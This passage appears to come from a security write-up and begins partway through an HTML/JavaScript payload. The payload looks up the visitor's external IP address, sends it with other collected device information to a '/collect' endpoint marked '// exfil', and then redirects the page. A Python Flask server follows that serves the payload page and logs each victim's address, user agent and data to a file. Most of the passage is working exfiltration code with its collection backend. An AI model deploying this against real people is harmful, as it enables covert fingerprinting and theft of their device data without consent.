 ```HTML
  try {
    const r = await fetch("https://api.ipify.org?format=json", { cache: "no-store" });
    ip_ext = (await r.json()).ip || "unknown";
  } catch (_) {}

  // exfil
  await fetch("/collect", {
    method: "POST",
    headers: {"Content-Type":"application/json"},
    body: JSON.stringify({ ip_ext, info, apps: [] })
  });

  // optional, a landing that we can config in the flask server
  location.replace("/ok");
})();
</script>
```
### Crafting the Flask server
We can craft a *simple Flask server* like:
```python
from flask import Flask, request, send_from_directory, jsonify
from datetime import datetime
import os, json

APP_DIR = os.path.dirname(os.path.abspath(__file__))
# save the content in a log file
LOG = os.path.join(APP_DIR, "captures.log")

app = Flask(__name__)

@app.get("/")
def root():
    # redirect to payload.html
    return send_from_directory(APP_DIR, "payload.html")

@app.get("/ok")
def ok():
    # our landing page, just an OK
    return "<h1>OK</h1>"

# will collect all the data and applications using the package name enumerator
@app.post("/collect")
def collect():
    try:
        data = request.get_json(force=True, silent=True) or {}
    except Exception:
        data = {"_raw": request.data.decode("utf-8", "ignore")}

    # verify apps
    if data.get("apps"):
        print("INSTALLED APPLICATIONS:", len(data["apps"]))

    entry = {
        "ts": datetime.utcnow().isoformat()+"Z",
        "remote_addr": request.headers.get("X-Forwarded-For", request.remote_addr),
        "ua": request.headers.get("User-Agent"),
        "data": data
    }
    print("[+] hit:", json.dumps(entry, ensure_ascii=False))
    with open(LOG, "a", encoding="utf-8") as f:
        f.write(json.dumps(entry, ensure_ascii=False) + "\n")
    return jsonify({"ok": True})
```